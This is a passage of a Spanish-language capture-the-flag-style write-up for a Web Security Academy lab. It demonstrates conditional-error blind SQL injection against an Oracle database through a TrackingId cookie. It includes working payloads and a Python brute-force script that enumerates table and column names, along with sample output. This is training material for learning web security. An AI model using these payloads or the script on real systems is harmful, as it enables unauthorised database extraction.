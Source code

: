 ```

                if r.status_code == 500:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```

`Obtenemos` las `tablas`

```
# python sqli_conditional_error.py                                  
[p] Fuerza bruta: C5PhDxyLUgYK5wqP'||(select case when (substr((select listagg(table_name, ' ') within group (order by table_name) from all_tables where owner = 'PETER'
[↖] Output: TRACKING%USERS
```

A continuación vamos a listar la `longitud` de las `columnas` de la tabla `USERS` cuyo propietario es `PETER`

```
Cookie: TrackingId=C5PhDxyLUgYK5wqP'||(select case when (length((select listagg(column_name, ' ') within group (order by column_name) from all_tab_columns where table_name = 'USERS' and owner = 'PETER')) > 1) then to_char(1/0) else null end from dual)||'; session=kozeaHyWxCxfjMUuZubvmHN0cIIi9ZTX
```

La `longitud` es de `23 caracteres`

```
Cookie: TrackingId=AVC3s45wGMdxye6i'||(select case when (length((select listagg(column_name, ' ') within group (order by column_name) from all_tab_columns where table_name = 'USERS' and owner = 'PETER')) = 23) then to_char(1/0) else null end from dual)||'; session=s9osfPyAvF5PKgpGMVedpIzes2eqKXSc
```

Vamos a usar ahora este `payload` para `obtener` los `caracteres`

```
Cookie: TrackingId=C5PhDxyLUgYK5wqP'||(select case when (substr((select listagg(column_name, ' ') within group (order by column_name) from all_tab_columns where table_name = 'USERS' and owner = 'PETER'), 1, 1) = 'a') then to_char(1/0) else null end from dual)||'; session=kozeaHyWxCxfjMUuZubvmHN0cIIi9ZTX
```

Con este `script` en python `iteramos` sobre el `payload` anterior y `obtenemos` el `nombre` de las `columnas`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a9e000503c4fd2988837a8f00b100ba.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""
```